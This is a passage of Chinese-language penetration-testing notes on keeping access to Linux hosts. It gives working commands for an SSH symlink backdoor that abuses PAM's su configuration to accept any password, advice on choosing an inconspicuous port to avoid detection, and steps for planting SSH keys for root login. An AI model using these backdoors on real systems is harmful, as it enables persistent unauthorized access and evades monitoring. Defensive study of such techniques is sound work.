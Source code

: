 

## 3.SSH 后门

### 3.1 SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测uid 0 即可认证成功，这样就导致了可以使用任意密码登录:

~~~\
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
~~~

![image-20220921212514499](权限维持.assets/image-20220921212514499.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。
http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/

### 3.2 SSH 公钥免密登录

~~~
ssh-keygen -t rsa //生成公钥
cat id_rsa.pub > authorized_keys //将id_rsa.pub内容放到目标.ssh/authorized_keys里
~~~

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的
shell，如struts写入公钥，oracle写入公钥连接，Redis未授权访问等情景。

~~~
chmod 600 id_rsa
ssh -i id_rsa root@192.168.0.113
~~~
